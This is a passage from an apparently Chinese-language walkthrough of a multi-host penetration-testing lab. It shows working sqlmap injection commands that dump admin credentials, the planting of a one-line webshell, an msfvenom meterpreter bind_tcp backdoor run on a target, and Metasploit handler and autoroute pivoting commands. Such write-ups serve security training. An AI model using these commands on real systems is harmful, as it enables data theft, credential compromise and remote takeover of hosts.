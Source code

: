 ```bash
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS28.png)
5、看看bagecms下有哪些表
```bash
root@kali:~# proxychains4 sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" -p keyword -D bagecms --tables
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS29.png)
6、看一下bage_admin下的内容
```bash
root@kali:~# proxychains4 sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" -p keyword -D bagecms -T bage_admin --columns
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS30.png)
7、username、password自然是最感兴趣的啦，给它dump下来，在dump的过程中sqlmap会有一些提示，一路yes就行
```bash
root@kali:~# proxychains4 sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" -p keyword -D bagecms -T bage_admin -C username,password --dump
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS31.png)
8、找到我们想要的了，登陆后台，看看有哪些功能
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS32.png)
9、后台里面有文件上传的地方，有编辑主页文件的地方，为了方便，我们直接把一句话写入网站文件中
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS33.png)
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS34.png)
10、来到标签页，可以看到一句话生效了，接下里在SocksCap中打开蚁剑，利用蚁剑连接，注意SocksCap设置好代理
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS35.png)
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS36.png)
## b、设置代理
1、蚁剑中可以看到这是一个64位的linux系统，据此信息在MSF中生成后门
```bash
root@kali:~# msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=4321 -f elf > shell2.elf
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS37.png)
2、利用蚁剑将shell2.elf上传到Target2并开启监听
```bash
(www:/www/wwwroot/upload) $ chmod 777 shell2.elf
(www:/www/wwwroot/upload) $ ./shell2.elf
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS38.png)

3、在MSF中开启EXP，与Target2建立连接，这里需要注意，上一次代理使用的reverse_tcp是MSF作为监听，让Target1连到我们，而这次代理使用的bind_tcp是Target2作为监听，我们需要连到Target2，这个逻辑正好是相反的。
```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set RHOST 192.168.22.22
msf5 exploit(multi/handler) > set LPORT 4321
msf5 exploit(multi/handler) > options
msf5 exploit(multi/handler) > run
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS39.png)
4、与之前一样，我们添加Target3的路由，这里就不用设置代理了，直接添加路由即可
```bash
run autoroute -s 192.168.33.0/24
run autoroute -p
```